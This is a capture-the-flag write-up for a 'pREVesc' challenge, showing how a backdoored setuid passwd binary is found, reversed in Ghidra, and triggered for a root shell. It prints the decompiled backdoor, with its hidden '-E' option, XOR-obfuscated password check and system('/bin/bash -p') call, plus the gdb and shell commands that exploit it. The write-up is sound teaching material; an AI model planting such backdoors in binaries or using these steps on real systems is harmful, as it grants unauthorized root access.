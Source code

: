 # 15 - pREVesc

## Description

Level: Hard<br/>
Author: coderion

We recently changed the root password for santa as he always broke our system. However, I think he has hidden some
backdoor in there. Please help us find it to save christmas!

## Solution

We are given a remote server that we can connect to via SSH. The categories of the challenge were "Reverse Engineering"
as well as "Linux". So I assumed we would need to do some PrivSec (for instance a setuid binary 😉) in combination with
some reversing.

After connecting to the server via SSH I looked for potential [setuid binaries](https://en.wikipedia.org/wiki/Setuid):

```console
challenge@server:~$ find "/" -perm /4000 2>/dev/null

/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

There seems quite a few setuid binaries and after wasting some time with [GTFOBins](https://gtfobins.github.io/), I
decided to take a closer look at the binaries. One of them stood out since it was modified a few days before the
challenge launched:

```console
challenge@server:/usr/bin$ ls -tla | head -10

drwxr-xr-x. 1 root root      4096 Dec 14 22:48 .
-rwsr-xr-x. 1 root root    132552 Dec 12 21:53 passwd
lrwxrwxrwx. 1 root root        24 Dec  4 12:42 editor -> /etc/alternatives/editor
lrwxrwxrwx. 1 root root        20 Dec  4 12:42 ex -> /etc/alternatives/ex
lrwxrwxrwx. 1 root root        23 Dec  4 12:42 rview -> /etc/alternatives/rview
lrwxrwxrwx. 1 root root        22 Dec  4 12:42 rvim -> /etc/alternatives/rvim
lrwxrwxrwx. 1 root root        20 Dec  4 12:42 vi -> /etc/alternatives/vi
lrwxrwxrwx. 1 root root        22 Dec  4 12:42 view -> /etc/alternatives/view
lrwxrwxrwx. 1 root root        21 Dec  4 12:42 vim -> /etc/alternatives/vim
```

Alternatively, one could also use `dpkg --verify` and would see this:

```
??5??????   /usr/bin/passwd
```

Hinting at the fact, that `passwd` has been replaced with a custom binary. I downloaded the file and reversed it
locally in Ghidra:

```c
void main() {
  ...
  switch (option) {
  case 'E':
    goto custom_option;
  ...

custom_option:
  setuid(0);
  setgid(0);
  env = getenv("SALAMI");
  
  if (env == (char *)0x0) {
    puts("Why u givin\' me no salami?!");
    exit(1);
  }

  local_1e8 = 0x707575;
  local_1ff = 0x41a041d;
  uStack_1fb = 0xe1f;
  local_1f8 = 0x6576656e;
  uStack_1f4 = 0x6e6f6772;
  uStack_1f0 = 0x6967616e;
  uStack_1ec = 0x6f796576;
  
  i = 0;
  do {
    local_205[i] = *(byte *)((long)&local_1ff + i) ^ *(byte *)((long)&local_1f8 + i);
    i++ = i + 1;
  } while (lVar14 != 6);
  
  local_1d8 = 0x1118151b;
  uStack_1d4 = 0x4e5c531e;
  uStack_1d0 = 0x471a161b;
  uStack_1cc = 0x15190e0a;
  local_1c8 = 0x4f160b18;
  uStack_1c4 = 0x46000e0f;
  uStack_1c0 = 0x2180004;
  uStack_1bc = 0x5c055605;
  uStack_1b8 = 0x1a3008;
  uStack_1b5 = 0x3b58045d;
  uStack_1b1 = 0x220a3506;
  
  i = 0;
  do {
    *(byte *)((long) local_108 + i) =
         local_205[(int) uVar9 + (int)((i & 0xffffffff) / 6) * -6] ^ *(byte *)((long)&local_1d8 + i);
    i++;
  } while (i != 0x2b);

  if (strcmp(env, (char *)local_108) == 0) {
    puts("Enjoy your salami!");
    system("/bin/bash -p");
  }

  exit(1);
```

There seems to be a hidden option `-E` that we can use, first it checks if the environment variable `SALAMI` is set. It
is then compared to a string. Instead of reversing this part, I ran the binary using gdb to obtain the expected string:

```console
(gdb) break *main+1055
(gdb) c
(gdb) x/s $r12

0x7fffffffde10:	"https://www.youtube.com/watch?v=dQw4w9WgXcQ"
```

All we need to do now is the following:

```console
challenge@server:/usr/bin$ export SALAMI="https://www.youtube.com/watch?v=dQw4w9WgXcQ"
challenge@server:/usr/bin$ passwd -E

Enjoy your salami

root@server:/usr/bin# id
uid=0(root) gid=0(root) groups=0(root),1001(challenge)

root@server:/usr/bin# cat /root/flag.txt
HV23{3v1l_p455wd}
```
